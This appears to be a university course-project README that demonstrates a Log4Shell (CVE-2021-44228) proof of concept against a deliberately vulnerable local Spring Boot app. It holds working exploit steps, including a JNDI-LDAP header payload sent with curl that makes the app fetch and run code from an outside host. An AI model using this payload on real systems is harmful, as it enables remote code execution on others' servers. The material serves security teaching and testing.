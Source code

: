 # CAP-6135 FinalProject Log4Shell Vulnerability - Exploitation POC (CVE-2021-44228)

## Contents

This repository contains a sample Spring Boot web application vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)

## Dependencies

* Log4j 2.14.1
* JDK 1.8.0_181

## Prerequisites:

* Docker

## Running the application

```bash
$ docker build . -t vulnerable
$ docker run -p 9090:8080 --name vulnerable --rm vulnerable
```

To test the application is up and running, go to a browser and enter the local ip and the port chosen:

![](./sc_1.png)

## Pre-Exploitation

To breach the vulnerable app, we used the great exploitation tool created by @welk1n to test vulnerabities [JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

*Note: Latest release can be found [here](https://github.com/welk1n/JNDI-Injection-Exploit/releases/download/v1.0/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar)*

## Setting up the exploit

We run the exploitation tool and set it up with a 'malicious' command

```bash
$ java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/hacked"
```

After executing the previous line, the tool will give us the endpoint that the vulnerable application should call

![](./sc_2.png)

## Exploitation

Now, we just need to call the app and introduce the malicious ldap server endpoint as an [HTTP Header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers)

```bash
#1. Notice that we are including the endpoint given by the exploitation tool in the previous step (vqwfzl)
#2. The name of the header does not matter because the app will log all the headers.

$ curl localhost:9090 -H 'Hack: ${jndi:ldap://192.168.86.220:1389/vqwfzl}'
```

At this point the vulnerable app, logged all the headers using the vulnerable version of log4j and triggered the ldap server that is running under the exploitation tool which ultimately executed the given command.

## Confirmation

```bash
$ docker exec vulnerable ls /tmp

...
hacked
...
```

## References

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/welk1n/JNDI-Injection-Exploit
https://github.com/christophetd/log4shell-vulnerable-app
